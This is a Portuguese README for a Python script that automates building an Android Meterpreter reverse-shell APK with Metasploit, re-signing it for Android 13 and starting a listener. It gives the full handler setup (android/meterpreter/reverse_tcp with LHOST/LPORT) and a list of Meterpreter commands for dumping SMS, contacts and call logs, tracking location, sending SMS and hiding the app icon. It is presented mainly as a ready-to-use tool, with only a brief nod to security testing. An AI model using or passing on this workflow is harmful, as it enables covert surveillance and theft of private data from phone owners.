 # Script brunao.py

Este script foi desenvolvido para automatizar várias etapas de testes e manipulações no Metasploit Framework e no Android. Ele realiza as seguintes tarefas:

- Atualiza o Metasploit Framework
- Gera um payload para Android
- Descompila e recompila o APK gerado
- Atualiza a versão do APK para Android 13
- Assina e otimiza o APK
- Inicia o listener do Meterpreter para conexões

## Funcionalidades

### 1. Atualização do Metasploit Framework
O script começa atualizando o Metasploit Framework e seu Linux todo para garantir que você esteja usando a versão mais recente. Durante a execução, ele verifica a versão instalada e a atualiza automaticamente se necessário.

### 2. Geração do Payload Android
O script gera um payload para Android e o salva como um arquivo APK, pronto para ser utilizado em testes de segurança.

### 3. Descompilação do APK
O APK gerado é descompilado usando a ferramenta Apktool, permitindo que o conteúdo seja acessado e modificado.

### 4. Atualização para Android 13
Após a descompilação, o script atualiza a versão do APK para Android 13, garantindo que o arquivo gerado seja compatível com a versão mais recente do sistema operacional.

### 5. Recompilação e Assinatura do APK
O APK modificado é recompilado e assinado digitalmente usando um keystore, o que permite sua execução em dispositivos Android.

### 6. Início do Listener do Meterpreter
Por fim, o script inicia o listener do Meterpreter, configurando a porta de escuta e esperando a conexão do dispositivo.

## Requisitos

- **Python 3**: O script foi desenvolvido para Python 3.
- **Metasploit Framework**: O Metasploit Framework deve estar instalado no sistema para a execução do script.
- **Apktool**: Usado para descompilar e recompilar o APK.
- **Keystore**: Necessário para assinar o APK gerado.

## Como Usar

1. Clone este repositório ou baixe o arquivo `brunao.py`.
2. Certifique-se de que o Metasploit Framework, Apktool e o Python 3 estão corretamente instalados no seu sistema.
3. Execute o script com o seguinte comando:

    ```bash
    sudo python3 brunao.py -r
    ```

4. Durante a execução, o script pedirá algumas informações, como a porta de destino para o listener (LPORT).
5. Após a execução bem-sucedida, você terá o APK assinado e otimizado pronto para ser utilizado.

## Exemplos de Uso

- **Iniciar o script**:

    ```bash
    sudo python3 brunao.py -r
    ```
  <h3>Quando tudo tiver compilado vai pedir uma senha a senha é: password</h3>
  <h4>Se errar a senha tente de novo usando o ' sudo python3 brunao.py -r ' e tente copia a senha: <h2>password</h2></h4>

    O script vai iniciar o processo automaticamente e pedirá que você forneça as informações necessárias, como a porta (LPORT).

## Contribuições

## Sinta-se à vontade para contribuir com melhorias ou correções. Caso encontre problemas, por favor, abra uma issue no repositório.

<br>
----------------------------------------------//-------------------------------//-------------------------------------

## Comandos específicos para Android

-activity_start: Inicia uma atividade Android a partir de uma string Uri.

-check_root: Verifica se o dispositivo Android é root.

-dump_calllog: Obtém o histórico de chamadas.

-dump_contacts: Obtém a lista de contatos.

-dump_sms: Obtém as mensagens SMS.

-geolocate: Obtém a localização atual usando geolocalização.

-hide_app_icon: Oculta o ícone do aplicativo do lançador.

-interval_collect: Gerencia a coleta de dados em intervalos.

-send_sms: Envia SMS do dispositivo alvo.

-sqlite_query: Consulta um banco de dados SQLite no armazenamento.

-wakelock: Habilita ou desabilita o Wakelock.

-wlan_geolocate: Obtém a localização usando informações de WLAN.


## Iniciar coleta de Wi-Fi:


Copiar código
interval_collect -a start -c wifi
Pausar a coleta de localização geográfica:


Copiar código
interval_collect -a pause -c geo
Exibir os dados coletados de torres de celular:


Copiar código
interval_collect -a dump -c cell


## (depois que instala o apk use sempre esse) Se você quiser iniciar o listener manualmente, execute o seguinte comando no terminal:


        msfconsole


## E, após carregar o Metasploit, configure o listener com o comando:


        use exploit/multi/handler
        set payload android/meterpreter/reverse_tcp
        set LHOST [IP_LOCAL]
        set LPORT [PORTA]
        exploit

        
Troque [IP_LOCAL] pelo seu IP local e [PORTA] pela porta que você configurou (como a porta 4444).

## Se quiser gerar um novo o apk(payload) apague os arquivos já existente como as pastas e apk's gerado

use: 
               sudo rm -rf Brunao_kyti
               
               sudo rm -rf brunao_kyti
               
               sudo rm -rf brunao_kyti.apk

               sudo rm -rf brunao_kyti_final.apk
               
               sudo rm -rf brunao_kyti_signed.apk


## Depois de gerar o apk instaler o brunao_kyti_final.apk, guarde e use o msfconsole. 

